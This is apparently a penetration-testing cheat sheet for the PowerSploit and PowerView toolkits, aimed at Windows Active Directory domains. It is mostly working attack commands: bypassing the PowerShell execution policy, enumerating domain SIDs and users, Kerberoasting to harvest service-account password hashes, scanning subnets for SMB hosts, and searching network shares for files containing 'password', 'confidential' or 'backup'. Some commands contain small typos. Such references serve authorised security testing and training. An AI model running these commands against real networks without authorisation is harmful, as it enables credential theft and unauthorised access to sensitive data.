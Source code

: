 # PowerSploit 

## Run as
If you want to use a Windows that is not on the domain perform the following command first on a cmd:
```
runas /netonly /user:{Domain\User} "cmd.exe"
powershell.exe -ExecutionPolicy Bypass
```

## Import PowerSploit modules
```
Import-Module PowerSploit
```

## SID 
 - Domain SID:
```
Get-DomainSID -Domain <domain> -DomainController <ipDc
```
 - User SID:
```
Get-NetUser -UserName <UserName> -Domain <Domain> -DomainController <DomainController> 
```

## Kerberoasting
```
Invoke-Kerberoast -OutputFormat Hascat | fl Hash
Invoke-Kerberoast -AdminCount 
Invoke-Kerberoast -Domain toto.local
```

## Discovery 
```
nmap -vv -Pn -n -p 445 10.10.10.0/24 -oA smb_host
grep open smb_host.gnmap | awk {'print $2'} > smb_up.txt && cat smb_up.txt
```

 - PowerView for finding interesting shares
```
Invoke-ShareFinder -ComputerFile smb_up.txt -NoPing -CheckShareAccess | Out-File -Encoding ascii found_shares.tx
```
 - PowerView for finding files with interesting terms
```
Invoke-FileFinder -ShareList found_shares.txt -Terms backup, confidential, password -OutFile results.csv -Verbose

Invoke-FileFinder -ShareList found_shares.txt -Terms backup, confidential, password, Photos -Verbose | ForEach-Object {Get-Acl $_.FullName} | Format-Lis
```

